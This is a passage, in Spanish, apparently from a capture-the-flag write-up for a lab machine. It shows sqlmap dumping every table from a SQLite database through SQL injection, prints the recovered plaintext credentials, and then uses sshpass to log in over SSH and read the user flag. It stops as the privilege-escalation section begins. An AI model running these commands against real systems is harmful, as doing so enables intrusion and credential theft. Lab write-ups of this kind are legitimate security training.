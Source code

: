 Ahora podemos usar `sqlmap` para automatizar el proceso. En algunos casos vermeos errores en los logs del script, es normal debido a que herramienta está haciendo pruebas antes de comenzar el ataque.

```bash
$ sqlmap -u "http://localhost:8181/?id=1" --batch --dump-all
######
[18:05:24] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:05:24] [INFO] sqlmap will dump entries of all tables from all databases now
[18:05:24] [INFO] fetching tables for database: 'SQLite_masterdb'
[18:05:25] [INFO] fetching columns for table 'accounts'
[18:05:26] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

[18:05:26] [INFO] table 'SQLite_masterdb.accounts' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/accounts.csv'
[18:05:26] [INFO] fetching columns for table 'messages'
[18:05:27] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+
######
```

Trataremos de conectarnos con ese usuario **sau** y esa contraseña por **SSH**.

```bash
$ sshpass -p "HereIsYourPassWord1431" ssh sau@10.10.11.214
#####
sau@pc:~$ ls
user.txt
sau@pc:~$ cat user.txt
a14**************************592
```

## Escalada de privilegios
### Enumeración local
Una buena practica al hacer pentest y tener acceso a la consola del servidor es ver los puertos abiertos solo en la red local, en este caso podemos ver que esta el puerto `8000`.
